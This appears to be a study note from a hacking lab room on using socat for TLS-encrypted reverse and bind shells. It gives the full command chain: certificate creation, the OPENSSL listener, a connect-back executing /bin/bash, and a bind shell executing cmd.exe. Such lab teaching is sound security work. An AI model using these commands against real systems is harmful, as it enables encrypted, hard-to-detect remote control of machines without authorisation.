 --- ---

<h2>Command</h2>

```Terminal
socat <options> TCP4:IP:PORT

or

socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 - 
```

- Options  ---> https://www.redhat.com/sysadmin/getting-started-socat
- TCP4      ---> Type of network connection

- Certification Creation (Important Before Using Socat)

	We first need to generate a certificate in order to use encrypted shells. This is easiest to do on our attacking machine:

	```Terminal
	openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt  
	```

	This command creates a 2048 bit RSA key with matching cert file, self-signed, and valid for just under a year. When you run this command it will ask you to fill in information about the certificate. This can be left blank, or filled randomly.  

	We then need to merge the two created files into a single `.pem` file:

	```Terminal
	cat shell.key shell.crt > shell.pem  
	```

	Now, when we set up our reverse shell listener, we use:

	```Terminal
	socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
	```

	This sets up an OPENSSL listener using our generated certificate. `verify=0` tells the connection to not bother trying to validate that our certificate has been properly signed by a recognised authority. Please note that the certificate _must_ be used on whichever device is listening.  

	To connect back, we would use:

	```Terminal
	socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
	```

	The same technique would apply for a bind shell:

	Target:
	
	```Terminal
	socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
	```

	Attacker:

	```Terminal
	socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -  
	```

	Again, note that even for a Windows target, the certificate must be used with the listener, so copying the PEM file across for a bind shell is required.

	The following image shows an OPENSSL Reverse shell from a Linux target. As usual, the target is on the right, and the attacker is on the left:

	![](https://i.imgur.com/UbOPN9q.png)  

	This technique will also work with the special, Linux-only TTY shell covered in the previous task -- figuring out the syntax for this will be the challenge for this task. Feel free to use the Linux Practice box (deployable at the end of the room) to experiment if you're struggling to obtain the answer.

---

<h2>What is Socat</h2>

Socat is like netcat on steroids. It can do all of the same things, and _many_ more. Socat shells are usually more stable than netcat shells out of the box. In this sense it is vastly superior to netcat; however, there are two big catches:

1.  The syntax is more difficult
2.  Netcat is installed on virtually every Linux distribution by default. Socat is very rarely installed by default.